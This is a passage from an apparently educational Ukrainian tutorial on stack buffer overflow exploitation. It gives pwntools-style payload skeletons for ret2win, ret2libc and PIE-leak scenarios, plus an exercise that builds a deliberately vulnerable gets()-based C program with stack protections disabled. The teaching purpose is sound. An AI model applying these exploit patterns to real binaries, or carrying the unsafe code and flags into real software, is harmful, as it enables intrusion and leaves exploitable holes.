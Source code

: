 ### Приклади

**Сценарій 1: Все вимкнено (stage06_ret2win)**

```python
# Простіший exploit на світі
payload = b'A' * offset + p64(addr_of_win)
```

**Сценарій 2: Тільки NX увімкнений**

```python
# Не можна shellcode, але можна ret2libc
payload = b'A' * offset + rop_chain
```

**Сценарій 3: NX + PIE**

```python
# 1. Leak адреси
io.recvuntil(b'Address: ')
leaked = int(io.recvline(), 16)
base = leaked - known_offset

# 2. Розрахувати адреси
win_addr = base + 0x1234

# 3. Експлойт
payload = b'A' * offset + p64(win_addr)
```

**Сценарій 4: Всі захисти (реальні програми)**

```python
# 1. Leak canary
# 2. Leak PIE base
# 3. Leak libc base
# 4. ROP chain з урахуванням Full RELRO
```

## 🎓 Практичні завдання

### Завдання 1: Зберіть власний бінарник

```bash
cat > test.c <<EOF
#include <stdio.h>
int main() {
    char buf[64];
    gets(buf);
    return 0;
}
EOF

# Без захистів
gcc -fno-stack-protector -z execstack -no-pie test.c -o test_noprotect

# Всі захисти
gcc -fstack-protector-all -pie -fPIE -z now -z relro test.c -o test_fullprotect

# Перевірте
checksec --file=test_noprotect
checksec --file=test_fullprotect
```
